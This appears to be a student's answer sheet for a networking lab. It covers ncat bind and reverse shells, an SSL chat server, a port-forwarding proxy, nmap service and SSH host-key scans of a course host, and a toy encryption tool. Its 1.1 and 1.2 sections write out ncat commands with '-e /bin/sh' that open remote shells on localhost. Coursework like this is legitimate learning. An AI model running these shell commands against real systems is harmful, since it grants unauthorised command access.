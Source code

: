 # Exercise 4

## 1

### 1.1

-   Server

```sh
ncat -lp 8080 -e /bin/sh
```

-   Client

```sh
ncat localhost 8080
pwd
```

### 1.2

-   Server

```sh
ncat -lp 8080
pwd
```

-   Client

```sh
ncat localhost 8080 -e /bin/sh

```

### 1.3

Yes, but the `/bin/sh` has to be changed to `pw.exe` on Windows to be able to execute Powershell commands

### 1.4

`-u, --udp Use UDP instead of default TCP`

Bind-shell works but reverse-shells don't

## 2

### Server

```sh
ncat --ssl --allow 127.0.0.1 --chat -o 'chat.log'  -lkp 4000

-l, --listen               'Bind and listen for incoming connections'
-p, --source-port port     'Specify source port to use'
-k, --keep-open            'Accept multiple connections in listen mode'
-o, --output <filename>    'Dump session data to a file'
--ssl                  'Connect or listen with SSL'
--allow                'Allow only given hosts to connect to Ncat'
--chat                 'Start a simple Ncat chat server'
```

### Client

```sh
ncat --ssl localhost 4000
```

## 3

```sh
while $(ncat -lp 8080 -c 'ncat localhost 80'); do
    true;
done
```

Is a proxy that forwards each request from port 8080 to port 80

### 4

Geht nicht

### 5

-   Which ports are used for SSH?
    The default port 22

    ```sh
    nmap delta-xi.net | grep ssh

    22/tcp open ssh
    ```

-   What’s the RSA public key for SSH?

    ```sh
    nmap -script 'ssh-hostkey' delta-xi.net

    | ssh-hostkey:
    |   256 0ffa22a64fd47aa5928a7bd850abf757 (ECDSA)
    |_  256 0bd869e3131da13aac7851283bea6e67 (ED25519)
    ```

-   When does the IMAP certificate expire?

    ```sh
    nmap -p 993 -sC delta-xi.net

    _Not valid after:  2022-10-29T18:46:53
    ```

### 6

```sh
echo -n "hello world" | cargo run -- -key key.txt -enc

Encrypted: 0RqJwHYOzYMUJNBZ/IMqJA==
```

```sh
echo "0RqJwHYOzYMUJNBZ/IMqJA==" | cargo run -- -key key.txt -dec

Decrypted: hello world
```
